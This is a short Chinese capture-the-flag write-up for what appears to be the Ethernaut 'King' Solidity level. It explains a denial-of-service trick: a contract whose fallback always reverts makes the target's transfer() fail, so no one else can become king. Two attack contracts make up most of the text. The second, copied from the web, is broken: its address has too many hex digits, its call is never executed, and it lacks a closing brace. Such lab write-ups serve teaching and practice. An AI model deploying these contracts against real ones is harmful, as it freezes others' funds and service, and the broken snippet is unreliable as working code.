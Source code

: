 * 题解关键：king.transfer(msg.value); 利用转账函数transfer在转过程中报错从而无法继续执行下面king = msg.sender;的代码，就不会产生新国王了

* 获取当前国王的价格：

  ```
  fromWei((await contract.prize()).toNumber())
  ```

* 构建新合约并抛出异常让transfer函数无法继续执行：

  ```
  pragma solidity ^0.6.0;
  
  contract A{
      address target = 0x20b5Ff3460aE2a6C7D8fdE858CD1C6e1311445D4;
      function attack() payable public {
          target.call{value : 1 ether}("");
      }
      fallback() external payable {
          require(false);
      }
  }
  ```

* 网上查阅到的方法：

  ```
  pragma solidity ^0.4.18;
  contract KingAttack {
    function KingAttack() public payable {
      address victim = 0x00023c2d053a342b80116d1ff0b986f5d821a08d91; // instance address
      victim.call.gas(1000000).value(msg.value);
    }
  ```

  















